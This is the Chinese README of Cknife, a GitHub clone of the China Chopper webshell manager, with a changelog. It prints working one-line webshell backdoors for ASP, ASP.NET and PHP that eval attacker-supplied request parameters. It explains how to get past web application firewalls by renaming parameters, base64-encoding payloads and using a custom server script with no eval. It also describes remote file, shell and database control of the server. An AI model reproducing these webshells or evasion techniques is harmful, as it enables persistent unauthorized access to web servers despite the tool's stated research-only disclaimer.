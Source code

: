 ```yaml
---
project: Cknife
stars: 2435
description: |-
    Cknife
url: https://github.com/Chora10/Cknife
---
```


软件名称：Cknife
中文名称：C刀
源码地址：https://github.com/Chora10/Cknife
下载地址：http://pan.baidu.com/s/1nul1mpr  密码：f65g
官方博客：http://www.ms509.com/
作者：	  Chora && MelodyZX
----------------------------------------------------------------------------------------------------------
免责声明：
本工具仅限于安全研究与教学使用，用户使用本工具所造成的所有后果，由用户承担全部法律及连带责任！作者不承担任何法律及连带责任。
----------------------------------------------------------------------------------------------------------
为什么开发Cknife：
1、方便已被授权的渗透测试人员进行渗透测试；
2、方便WAF厂商提升自身WAF的防护能力；
3、方便管理员管理自身网站及服务器。
----------------------------------------------------------------------------------------------------------
为什么开源Cknife：
1、结合大众的力量优化完善本软件；
2、菜刀后门层出不穷，开源来接受大众的监督以及审计。
----------------------------------------------------------------------------------------------------------
理想：希望能在安全研究员以及WAF厂商的对抗中提升国内WAF的防护水平以及安全研究员的实力。
----------------------------------------------------------------------------------------------------------


一、运行环境：

安装了JRE1.7+环境的所有操作系统

二、文件说明：
------------------------------------------------------------------
Cknife.jar	Cknife主程序
------------------------------------------------------------------
Cknife.db	Cknife的数据库(不存在会自动生成)
Config.ini	Cknife的配置文件(不存在会自动生成)
ReadMe.txt	你现在正在看的(可删除)
1.jsp		JSP服务端脚本(可删除)
1.jspx		JSPX服务端脚本(可删除)
------------------------------------------------------------------

三、使用说明：

服务端脚本支持ASP、ASPX、PHP、JSP、JSPX、Customize(自定义)。
代码包含且不限于如下代码（只要能构造出类似eval的函数就行，比如PHP的create_function、assert等）

ASP:        
<%eval request("Cknife")%>
　	
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["Cknife"],"unsafe");%>

PHP:        
<?php @eval($_POST['Cknife']);?>

JSP:	    
[代码详见1.jsp]

JSPX:	    
[代码详见1.jspx]

Customize:  
自定义类型,功能代码在服务端保存,理论上支持所有动态脚本,只要正确与C刀进行交互即可。此模式可按需定制，比如只要浏览目录，或是只要虚拟终端功能，代码可以很简短。


四、数据库功能：

首次使用在列表里点击右键，选择数据库管理会提示请先配置数据库，点击配置数据库按钮选择对应的连接方式连接即可。

五、设置功能：

代理功能：在类型处选择代理类型。支持SOCKS、HTTP类型的代理，使用Burp抓取Cknife数据，需选择代理类型为HTTP，并填上对应的IP以及端口即可。
如果想要关闭代理功能，只需要选择代理类型为DIRECT，或者清空用户名或密码，即表示关闭代理。

自定义请求头功能：在文本框里输入要自定义的请求头以及对应的值，可以添加或修改多个请求头。只需要按照如下格式添加即可：
User-Agent:xxx
Cookie:xxx
ms509:Chora
如果想要关闭自定义请求头功能，只需要把文本框内容清空，或者选中关闭选项并确定。

六、过WAF

这是一款跨平台的基于配置文件的中国菜刀，把所有操作给予用户来定义，主程序只是图形的展示，以及数据的发送。
我分开了每一个步骤写入到配置文件里面，用户可以自定义任何代码，包括更改参数名称，参数内容。 
比如： 
SKIN=javax.swing.plaf.nimbus.NimbusLookAndFeel 设置皮肤为nimbus 
SPL=->|               			       表示截取数据的开始符号 
SPR=|<-               			       表示截取数据的结束符号 
CODE=code         			       编码参数 
ACTION=action    			       动作参数 
PARAM1=z1         			       参数1 
PARAM2=z2         			       参数2 
PHP_BASE64=1   				       当为PHP时，Z1，Z2参数是否开启自动base64加密，如果想定义自己的加密方式则关闭设置为0 
PHP_MAKE=@eval(base64_decode($_POST[action])); 生成方式，这里可以不用该方式，可以用你任何想要的方式 
PHP_INDEX=...             		       显示主页功能的代码放这儿
PHP_READDICT=...      			       读取主页功能的代码放这儿
PHP_READFILE=...       			       读取文件功能的代码放这儿
PHP_DELETE=...           		       删除文件夹以及文件功能的代码放这儿
PHP_RENAME=...         			       重命名文件夹以及文件功能的代码放这儿
PHP_RETIME=...         			       修改时间功能的代码放这儿
PHP_NEWDICT=...        			       新建目录功能的代码放这儿
PHP_UPLOAD=...          		       上传文件功能的代码放这儿
PHP_DOWNLOAD=...    			       下载文件功能的代码放这儿
PHP_SHELL=...              		       虚拟终端功能的代码放这儿
PHP_DB_MYSQL=...			       管理MYSQL数据库功能的代码放这儿
ASP_...=...
ASPX_...=...
JSP_...=...

除了修改以上参数过WAF外，程序还额外提供了一种Customize过WAF的模式。
Customize模式原本是用于支持一些程序默认不支持的脚本，比如CFM、ASMX、ASHX、PY等等，只要用户自写的脚本能正确与菜刀进行交互即可。

换一个思考方式，如果我们自写一个PHP脚本实现了列文件以及目录的功能，它能够正确的与C刀进行交互，这个时候如果我们选择PHP(Eval)的连接方式就会连接失败。
应该选择Customize模式进行连接。有人说为什么一句话就可以连接，你偏偏还要写这么多代码用Customize模式连接？如果一个很厉害的WAF检测eval,assert等关键词
，你的一句话实在是饶不过，这个时候你可以不用一句话，就在PHP脚本里用正常代码实现列文件以及目录，然后用Customize模式连接就达到了过WAF的目的。

Customize(自定义)模式跟其他模式一样，每一个步骤也都写入到配置文件里面，用户同样可以参数名称以及参数内容。
比如你自写了用Customize模式连接的Customize.php服务端。显示主页功能提交的参数应该是：密码=1&action=index以及密码=1&action=readdict。
如果C刀普及以后WAF厂商肯定会把readdict列入黑名单，这个时候你就可以修改readdict的名称为其他名称，同样可以修改action的名称，也可以修改1为其他字符
CUS_MAKE=1 
CUS_INDEX=index 
CUS_READDICT=readdict 
CUS_READFILE=readfile 
CUS_SAVEFILE=savefile 
CUS_DELETE=delete 
CUS_RENAME=rename 
CUS_RETIME=retime 
CUS_NEWDICT=newdict 
CUS_UPLOAD=upload 
CUS_DOWNLOAD=download 
CUS_SHELL=shell

七、更新日志：(更新版本后请删除Config.ini文件，重新打开自动生成新版本的Config.ini)

程序在使用过程中难免有各种BUG，及时关注看一下是否有更新吧，说不定己经修补了呢。

已知问题：
Graphite与Metal类型的皮肤互相之间切换不需要重启Cknife，其余类型(Nimbus、Windows、Mac等)的皮肤相互之间切换也不需要重启Cknife，
但是这两种类型的皮肤进行切换就需要重启Cknife才能完全生效，不然最小化、最大化、关闭按钮不会显示，这是Swing架构遗留的问题。

20160729
1、文件管理修复若干BUG
2、文件管理新增修改时间功能
3、文件管理优化界面

20160728
1、数据库管理修复若干BUG
2、数据库管理增加获取表行数
3、数据库管理优化界面

20160623
1、虚拟终端增加右键复制粘贴功能（快捷键Ctrl+C、Ctrl+V）
2、虚拟终端增加上键下键切换历史命令功能
3、数据库管理增加右键导出数据功能

20160622
1、修复ORACLE数据库连接失败的问题
2、修复在某分辨率下添加SHELL对话框里的密码文本框消失的问题
3、更新JSPX脚本

20160620
1、修复虚拟终端低概率执行失败的情况
2、数据库管理界面优化

20160618
1、添加对HTTPS协议的支持
2、修复文件管理右边栏遇到乱码不显示的情况

20160513
1、添加自定义请求头功能

20160511
1、添加设置选项并增加了代理功能
2、增加了对JSPX脚本的支持，连接时脚本类型选择JSP(Eval)

20160426
1、修复JSP连接MYSQL数据库异常的问题
2、虚拟终端增加自定义Cmd路径的功能，命令为setp [path]

20160413
1、添加自定义模式shell返回路径的自定义分隔符
2、添加JSP对MSSQL的支持

20160318
1、优化界面，右边栏点击目录后左边栏也会选中
2、修复ASP、ASPX、JSP在打开空目录时会失败的问题
3、将默认皮肤Graphite添加到皮肤切换功能
4、虚拟终端增加标识符方便用户分辨
5、数据库部分功能增加多线程

20160317
1、优化文件管理左边栏的打开方式
2、文件管理所有功能使用多线程，防止高延迟请求界面会卡的情况发生

20160316
1、修复在Linux下默认皮肤显示乱码的问题
2、添加ASPX对MSSQL、ACCESS的支持
3、更换皮肤解决选中后看不清的情况

20160314
1、添加ASP对MSSQL、ACCESS的支持
2、修复中文路径启动失败的问题

20160311
1、修复模拟终端若干BUG；
2、模拟终端使用多线程，防止高延迟请求界面会卡的情况发生

20160310
1、添加JSP对MYSQL、ORACLE的支持
2、修复在Windows下，文件管理会多出一个盘符

20160307
1、连接失败返回详细信息，方便用户分析问题

20160301
1、合并Cknife与Cknife_Skin
2、添加数据库功能，添加PHP对MYSQL的支持
